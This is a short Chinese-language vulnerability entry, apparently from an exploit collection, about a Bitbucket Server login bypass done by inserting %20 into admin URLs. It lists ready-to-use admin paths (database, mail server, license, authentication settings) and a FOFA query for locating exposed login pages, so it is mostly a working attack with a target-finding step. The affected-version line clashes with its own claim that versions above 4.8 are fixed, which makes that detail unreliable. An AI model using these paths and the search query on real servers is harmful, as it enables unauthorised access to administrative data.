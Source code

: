 # Atlassian Bitbucket 登录绕过漏洞

## 漏洞描述

此错误已修复并部署在 Bitbucket Server > 4.8 上。Bitbucket 由 Atlassian 团队开发。其中出现了一个通过 %20 绕过权限的漏洞，导致任意用户可获取敏感数据

## 漏洞影响

```
Bitbucket Server > 4.8
```

## FOFA

```
title="Log in - Bitbucket"
```

## 漏洞复现

登录页面

![](./images/202205241429046.png)

验证POC

```
/admin%20/mail-server
/admin%20/db
/admin%20/db/edit
/admin%20/license
/admin%20/logging
/admin%20/server-settings
/admin%20/authentication
/admin%20/avatars
```

![](./images/202205241429345.png)